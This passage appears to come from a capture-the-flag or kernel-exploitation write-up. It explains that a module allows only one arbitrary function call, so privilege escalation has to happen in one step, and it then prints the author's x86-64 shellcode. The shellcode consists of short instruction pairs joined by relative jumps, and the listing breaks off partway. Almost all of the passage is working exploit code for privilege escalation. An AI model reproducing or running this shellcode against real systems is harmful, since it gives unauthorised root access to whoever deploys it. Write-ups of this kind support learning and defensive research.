 The module does not allow you to call the arbitrary function again so you have to escalate privileges in one go.

This is the shellcode that I came up with (100% not optimized but it works). There are smarter paths but this should be the pretty straight forward.
```c
pop rbx
pop rbx
jmp $+3

pop rbx
pop rbx
jmp $+3

pop rdi
pop rdi
jmp $+3

pop rdi
pop rdi
jmp $+3

pop rdi
nop
jmp $+3

sub ebx, edx
jmp $+3

push rbx
nop
jmp $+3

xchg rsp, rax
jmp $+3

add al, 0xc
jmp $+3

xor ecx, ecx
jmp $+3

not ecx
jmp $+3

xchg rsp, rax
jmp $+3

push rcx
nop
jmp $+3

xchg rsp, rax
jmp $+3

sub al, 0x4
jmp $+3

xchg rsp, rax
jmp $+3

xor ecx, ecx
jmp $+3

```